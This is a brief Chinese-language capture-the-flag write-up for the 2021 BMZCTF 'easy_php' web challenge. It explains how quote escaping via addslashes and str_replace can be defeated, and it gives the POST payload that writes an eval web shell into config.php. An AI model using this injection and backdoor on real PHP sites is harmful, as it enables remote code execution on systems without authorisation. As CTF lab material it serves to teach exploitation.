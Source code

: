 # 2021-BMZCTF-Web-Writeup

## easy_php

POST传参会被`addslashes`，第一次是写进去，第二次是`str_replace`。想办法逃逸出单引号：

```php
$content."\n\$LANG['$key'] = '$_POST[no1]';\n?>";
```

第一次传的话单引号会变成`\'`然后写进去，第二次传会把`'xxxxxx`给替换成`\'xxxx`：

```
string(30) "';eval($_POST[0]);phpinfo();//" string(31) "\';eval($_POST[0]);phpinfo();//"
```

这样就两个`\\`，单引号逃出转义了。

打2次然后config.php命令执行即可。

```
sudo=&info[name]=feng&no1=';eval($_POST[0]);phpinfo();//
```

